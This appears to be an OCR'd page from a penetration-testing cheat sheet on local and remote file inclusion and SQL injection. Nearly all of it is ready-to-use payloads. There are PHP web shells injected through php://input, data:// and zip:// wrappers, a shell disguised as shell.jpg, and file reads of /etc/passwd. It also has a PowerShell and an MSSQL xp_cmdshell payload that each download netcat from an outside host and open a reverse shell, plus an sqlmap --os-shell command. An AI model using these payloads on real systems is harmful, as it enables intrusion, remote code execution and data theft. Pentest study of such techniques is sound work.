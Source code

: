 # Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id

Local File Inclusion: Reading Files

file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -

Remote File Inclusion Shell: Windows + PHP

<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>

SQL Injection to Shell or Backdoor

# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj

# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10

# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
